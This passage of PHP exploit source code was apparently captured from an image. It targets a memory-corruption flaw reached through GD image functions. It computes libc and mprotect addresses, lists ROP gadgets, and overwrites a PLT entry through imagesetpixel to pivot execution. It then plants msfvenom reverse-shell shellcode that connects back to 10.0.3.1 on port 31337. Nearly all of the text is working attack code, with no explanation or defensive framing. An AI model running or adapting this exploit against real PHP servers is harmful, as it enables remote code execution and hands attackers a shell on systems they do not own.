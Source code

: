 ```
        die("[-] can't find libc base, you need an information leak :[");

echo "[+] libc base @ 0x".dechex($libc_base)."\n";

/*
objdump -T /lib/i386-linux-gnu/libc.so.6|grep mprotect
000d4230  w   DF .text  00000037  GLIBC_2.0   mprotect
*/

$mprotect_offset = 0xd4230;
$mprotect_addr = $libc_base + $mprotect_offset;

echo "[+] mprotect @ 0x".dechex($mprotect_addr)."\n";


/* gadgets
pgp5-fpm
0x086ea6d1 : pop ebx ; pop ebx ; aas ; pop ebx ; ret
0x080c5b76 : mov eax, ecx ; ret
0x086d1cf0 : xchg eax, esi ; ret
0x080efd28 : call esi

libc.so
0x00102ec1 : push ecx ; add al, 0x8b ; pop ebp ; cld ; leave ; ret

*/
$pivot_offset = 0x00102ec1;
$pivot =  $libc_base + $pivot_offset;
$pop3 = 0x086ea6d1;

// Overwrite write@plt entry to pivot address
for ($i = 0; $i < 256; $i++) imagecolorallocatealpha($evilimg, $i, $i, $i, $i);
$pivot_str = pack('I', $pivot);
for ($i = 0; $i < strlen($pivot_str); $i++) {
        imagesetpixel($evilimg, $plt_write + $i, 0, ord($pivot_str[$i]));
}


// Allocate shellcode
$pre = get_maps();
$buffer = str_repeat("\x41", 0xff0000);
$post = get_maps();
$tmp = array_diff($post, $pre);
if (count($tmp) != 1)
        die('[-] you need infoleak :[');
$tmp = explode('-',array_values($tmp)[0])[0];
$align = 0xff;
$addr = hexdec($tmp) + 0x18; /* align to string */

echo "[+] buffer string @ 0x".dechex($addr)."\n";

// msfvenom -p linux/x86/shell_reverse_tcp -f python LHOST=10.0.3.1 LPORT=31337
$shellcode = "";
$shellcode .= "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66";
$shellcode .= "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a";
$shellcode .= "\x00\x03\x01\x68\x02\x00\x7a\x69\x89\xe1\xb0\x66\x50";
$shellcode .= "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73";
$shellcode .= "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0";
$shellcode .= "\x0b\xcd\x80";

for ($i = 0; $i < strlen($shellcode); $i++) $buffer[$i] = $shellcode[$i];


```